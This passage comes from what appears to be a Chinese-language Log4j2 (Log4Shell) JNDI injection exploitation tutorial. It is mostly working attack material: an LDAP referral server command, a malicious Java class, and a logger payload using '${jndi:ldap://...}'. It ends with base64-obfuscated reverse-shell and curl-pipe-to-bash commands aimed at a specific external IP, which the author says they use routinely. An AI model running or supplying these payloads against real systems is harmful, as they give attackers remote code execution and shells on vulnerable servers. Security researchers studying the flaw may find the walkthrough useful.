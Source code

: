 这里就可以去执行InitialContext.java 原生lookup解析函数,也就是jndi注入漏洞的起点

# 漏洞利用

起一个ldap服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8088/#test
```

编写恶意类test.java

```
public class test {
    public test() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}
```

开启web服务

```
python -m http.server 8088
```

exp

```
package Log4j2;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
public class exp {
    private static final Logger logger = LogManager.getLogger();
    public static void main(String[] args) {
        logger.error("${jndi:ldap://127.0.0.1:1389/#Exploit}");
    }
}
```

![image-20220221183255576](images/21.png)

除了用marshalsec工具起ldap服务,还可以直接利用jndi注入工具,这种方法更为实用,不用再去编译恶意class文件和起ldap服务,本地测试的时候也不用去起HTTP服务端

平常我反弹shell的时候就是用的这个工具

```
bash反弹shell

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45My4yNDguMjIxLzIzMzMgMD4mMQ==}|{base64,-d}|{bash,-i}" -A "47.93.248.221"
```

base64编码内容为要执行的命令,这个工具需要用jdk11去起

```
curl反弹shell

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,Y3VybCA0Ny45My4yNDguMjIxfGJhc2g=}|{base64,-d}|{bash,-i}" -A "47.93.248.221"
```
